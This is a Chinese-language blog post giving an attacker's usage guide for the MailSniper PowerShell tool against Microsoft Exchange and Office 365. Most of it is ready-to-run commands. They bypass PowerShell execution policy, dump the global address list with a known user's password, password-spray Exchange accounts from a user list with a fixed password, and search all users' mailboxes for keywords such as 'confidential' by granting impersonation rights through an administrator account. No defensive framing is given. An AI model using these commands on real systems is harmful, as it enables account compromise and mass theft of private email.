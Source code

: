 # mailsniper.ps1


> 下载地址：https://github.com/dafthack/MailSniper.git



## mailsniper.ps1获取outlook所有联系人	

> 收集邮箱，为后续爆破准备



#### 前提

掌握其中一个用户邮箱的账户密码，并可以登录outlook





#### 利用

命令格式

```bash
# 在域内机器上执行
powershell -exec bypass
Import-Module .\MailSniper.ps1
Get-GlobalAddressList -ExchHostname outlook地址 -UserName 域名\域用户名 -Password 已知的邮箱密码 -OutFile 导出结果.txt
```



1.目标outlook搭建在自己的服务器上

```bash
ExchHostname指向自己的邮箱服务器地址即可
```



2.目标outlook在office365中

```bash
一样的道理，只不过把ExchHostname指向outlook.office365.com即可，username使用完整的邮箱，而不仅仅是用户名。

```







#### 爆破exchange（指定密码爆破邮箱）

```bash
powershell -exec bypass
Import-Module .\MailSniper.ps1
Invoke-PasswordSprayEWS -ExchHostname owa2013.rootkit.org -UserList .\users.txt -Password Admin12345 -ExchangeVersion Exchange2013_SP1

# -ExchHostname：ping -a exchange服务器ip -> 得到主机名 -> 主机名拼接域名（如：owa2013.rootkit.org）
# -ExchangeVersion：若不知道可先不指定
```







#### MailSniper检索邮件内容

Mailsniper包含两个主要的cmdlet，分别是`Invoke-SelfSearch`和`Invoke-GlobalMailSearch`，用于检索邮件中的关键字。

```bash
## 查找当前用户的Exchange邮箱数据
Invoke-SelfSearch -Mailbox zhangsan@fb.com -Terms *机密* -Folder 收件箱 -ExchangeVersion Exchange2013_SP1
# 查找邮件内容中包含pwn字符串的邮件，-Folder参数可以指定要搜索的文件夹，默认是inbox，使用时最好指定要搜索的文件夹名称（或者指定all查找所有文件），因为该工具是外国人写的，Exchange英文版收件箱为Inbox，当Exchange使用中文版时收件箱不为英文名，默认查找inbox文件夹会因找不到该文件而出错

## 查找所有用户的Exchange邮箱数据
Invoke-GlobalMailSearch -ImpersonationAccount zhangsan -ExchHostname test2k12 -AdminUserName fb.com\administrator -ExchangeVersion Exchange2013_SP1 -Term "*内部邮件*" -Folder 收件箱
# 利用administrator管理员用户为普通用户zhangsan分配ApplicationImpersonation角色，检索所有邮箱用户的邮件中，包括“内部邮件”关键字的内容
```



















































































































---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/mailsniper-ps1/  

